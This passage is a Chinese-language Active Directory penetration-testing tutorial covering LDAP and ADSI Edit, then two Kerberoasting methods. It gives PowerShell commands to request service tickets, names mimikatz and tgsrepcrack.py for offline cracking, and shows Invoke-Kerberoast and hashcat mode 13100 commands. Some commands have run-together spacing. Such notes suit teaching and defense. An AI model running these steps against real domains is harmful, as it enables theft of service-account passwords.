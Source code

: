 ##### LDAP

LDAP 协议全称是 LightweightDirectory Access Protocol，一般翻译成轻量目录访问协议。是一种用来查询与更新 Active Directory 的目录服务通信协议。AD 域服务利用 LDAP 命名路径（LDAP naming path）来表示对象在 AD 内的位置，以便用它来访问 AD 内的对象。



LDAP 数据的组织方式：

[![oaSpjI.png](https://z3.ax1x.com/2021/12/03/oaSpjI.png)](https://imgtu.com/i/oaSpjI)

更直观的说可以把 LDAP 协议理解为一个关系型数据库，其中存储了域内主机的各种配置信息。

在域控中默认安装了 ADSI 编辑器，全称 ActiveDirectory Service Interfaces Editor (ADSI Edit)，是一种 LDAP 的编辑器，可以通过在域控中运行 adsiedit.msc 来打开（服务器上都有，但是只有域控中的有整个域内的配置信息）。

通过 adsiedit.msc 我们可以修改和编辑 LADP，在 SPN 查询时实际上就是查询 LADP 中存储的内容。

##### kerberoasting

###### 攻击方式1

如果我们有了SPN的注册权限，我们就可以给指定的域用户注册一个SPN，然后获取到TGS，然后破解得到密码

在 TGS_REP 中，TGS 会返回给 Client 一张票据 ST，而 ST 是由 Client 请求的 Server 端密码进行加密的。当 Kerberos 协议设置票据为 RC4 方式加密时，我们就可以通过爆破在 Client 端获取的票据 ST，从而获得 Server 端的密码

1. 首先用SPN扫描
2. 根据扫描出的结果使用微软提供的类 Kerberos Requestor Security Token 发起 kerberos 请求，申请 ST 票据

~~~powershell
PS C:\> Add-Type -AssemblyNameSystem.IdentityModel
PS C:\> New-ObjectSystem.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList"MSSQLSvc/s2:1433"
~~~



可以看到这个过程通过AS-REQ、AS-REP、TGS-REQ、TGS-REP这四个认证流程，获取到 RC4 方式加密的票据

3. Kerberos 协议中请求的票据会保存在内存中，可以通过 klist 命令查看当前会话存储的 kerberos 票据

这里可以借助 mimikatz 导出，使用 kerberoast 工具集中的 tgsrepcrack.py 工具进行离线爆破，成功得到 tsvc 账号的密码 admin1234!

###### 攻击方式2

Kerberoasting攻击方式一中需要通过 mimikatz 从内存中导出票据，Invoke-Kerberoast 通过提取票据传输时的原始字节，转换成 John the Ripper 或者 HashCat 能够直接爆破的字符串。

使用 Invoke-Kerberoast 脚本 (这里使用的是 Empire 中的 Invoke-Kerberoast.ps1)

~~~
Import-module Invoke-Kerberoast.ps1
Invoke-kerberoast -outputformat hashcat |fl
~~~

使用 HASHCAT 工具进行破解

~~~
PSC:> hashcat64.exe –m 13100 test1.txt password.list --force
~~~

